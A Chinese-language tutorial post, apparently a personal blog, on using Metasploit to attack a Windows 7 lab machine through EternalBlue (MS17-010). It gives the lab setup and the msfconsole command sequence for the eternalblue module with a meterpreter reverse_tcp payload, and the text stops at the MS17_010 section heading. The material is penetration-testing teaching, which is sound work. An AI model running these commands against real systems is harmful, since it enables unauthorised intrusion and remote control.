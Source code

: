 ```yaml
---
title: msf渗透测试之永恒之蓝
date: 2025-04-18 11:58:55
tags: 渗透测试
categories: 网络安全
---
```

# 实验环境

**前提：对方的445端口必须开放,首先要保证是能够访问到目标机器的，那么我们先ping一下目标机器，看网络是否连通**

**如果无法ping的话，对方机器必须要关闭防火墙，或许有其他方法在对方开启防火墙的情况下访问到对方？目前采用关闭防火墙**

**使用工具：kali**

靶机：windows 7  ip：10.0.0.128

攻击机器：kali IP：10.0.0.139

Metasploit就是一个漏洞框架。它的全称叫做The Metasploit Framework，简称MSF。是一个免费、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。

```bash
#登录MSF
┌──(root㉿kali)-[/home/cherry]
└─# msfconsole  
       =[ metasploit v6.4.54-dev                          ]  框架的版本号是 v6.4.54-dev
+ -- --=[ 2499 exploits - 1289 auxiliary - 393 post       ]  2499 个漏洞利用模块。1289个辅助模块。393个后渗透模块
+ -- --=[ 1607 payloads - 49 encoders - 13 nops           ]  1607 个有效载荷  49个编码器 13个NOP 生成器
+ -- --=[ 9 evasion    9 个规避模
```

# 使用方法

## 1.基础使用

```apl
msfconsole										    #进入框架
search  ms17_010                                    # 使用search命令查找相关漏洞
use exploit/windows/smb/ms17_010_eternalblue        # 使用use进入模块
info     										    #使用info查看模块信息
set payload windows/x64/meterpreter/reverse_tcp    	#设置攻击载荷
show options    									#查看模块需要配置的参数
set  RHOST 10.0.0.128    					        #设置参数
exploit / run     								    #攻击
后渗透阶段											 #后渗透阶段
```

不同的攻击用到的步骤也不一样，这不是一成不变的，需要灵活使用。 我们也可以将攻击代码写入configure.rc（只要是以.rc结尾的文件）配置文件中，然后使用命令msfconsole -r configure.rc进行自动攻击！

## 2.MS17_010(永恒之蓝)：
